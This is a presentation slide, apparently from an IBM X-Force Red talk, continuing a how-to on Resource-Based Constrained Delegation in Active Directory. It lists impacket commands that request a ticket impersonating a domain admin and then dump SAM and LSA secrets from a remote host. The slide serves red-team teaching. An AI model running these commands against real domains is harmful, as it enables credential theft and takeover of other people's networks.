

# DA, now what? > RBCD How To Continued
Request a service ticket that will be used to impersonate a daUser on the remote host
impacket-getST -spn cifs/remoteHost.domain.local -impersonate daUser domain.local/ValidUser:ValidPass -dc-ip $dcip
Set the ccache file environment variable for impacket
export KRB5CCNAME=daUser.ccache
Dump all the things! (SAM, LSA, etc.)
impacket-secretsdump -k -no-pass remoteHost.domain.local

IBM Security X-Force Red / © 2022 IBM Corporation
55